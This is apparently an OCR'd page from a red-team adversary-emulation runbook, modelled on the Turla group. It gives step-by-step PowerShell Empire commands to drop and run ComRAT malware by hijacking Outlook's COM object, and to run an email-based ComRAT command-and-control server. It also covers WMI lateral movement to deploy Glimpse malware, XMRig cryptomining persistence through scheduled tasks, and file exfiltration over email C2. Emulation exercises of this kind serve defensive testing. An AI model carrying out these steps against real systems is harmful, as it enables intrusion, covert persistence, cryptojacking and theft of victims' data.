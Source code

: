 Persistence: Upload and Execute the stage 2 malware, ComRAT DLL 
For each ComRAT target in the Targets List section perform the following steps from PSEmpire 
1. > interact <COMRAT1X> ex. interact COMRAT1
2. > resource resource/comrat.rc  
This resource drops and runs the Turla ComRAT malware. Wait for the resource output data.
3. > ps outlook  
Outlook needs to restart to load in the newly hijacked COM object (DLL)
4. > kill <outlook pid>

 
Start the ComRat C2 :  
Logs, downloads, etc will be saved in the cca_logs directory
1. # cd ~/Scripts/Comrade_Turla/comrade-turla-server/cca_logs  
2. (Optional) Delete the old logs  
#  ./clean_comrat_artifacts.sh
3. Start the Server 
# ./run_comrat.sh <target victim email>
4. At least 1 message with a status report should come 

5. Enter Ctrl+C to kill the ComRAT C2 server.
If no message is received from the C2 
Ensure Lariat is running.  
Ensure Outlook relaunched on victim host and is sending and receiving. 
Ensure SMTP Auth works. See below section �Testing VMail/GMail� 
Lateral Movement: Deploy Glimpse stage 2 malware
1. > agents  
2. > autorun clear  
3. In another Terminal, edit the variables�WorkStart�, �WorkEnd� and �SleepMin� in ~/Scripts/Empire/glimpse/runner_.vbs if needed. Default is 8:00-17:00 with 5 min sleep. 

4. > autorun resource/glimpse.rc powershell  
5. > interact <xampp VDrago agent id>  
6. > usemodule lateral_movement/invoke_wmi  
7. > set listener TurlaHTTP
  
8. Loop: Run on each Glimpse target in the Targets List section  
a. > set ComputerName <target>  
b. > run  
c. Wait for Empire agent call-back to check in and run autorun tasks.
 
d. (Optional) In the Glimpse GUI, add the Hostname in the comment field. 
Glimpse and XMRig Persistence: resource file creates schedule tasks (schtasks) �onStart� 
Mining Pool:
Note: See "Glimpse_XMRig - Setup - 14Apr2021.pdf" attachment on Red Team page for Setup instructions
1. Check that the mining pool on monero_bc_pool is handing out XMR mining tasks Ex. [pool] (Thread 4) Accepted trusted share at difficulty ... 
2. Kill and restart the MinningPoolStart.sh script if no messages like above appear after 5 min. 
Exfil: C2 comms via email 
Ensure Lariat is running on the hosts infected with ComRAT
For each ComRAT Exfil target email, perform the following
1. Perform steps 1-4 in the section Start the ComRAT C2
2. > ps "gci -exclude collab*" 
Search for files (excludes Lariat generated files)
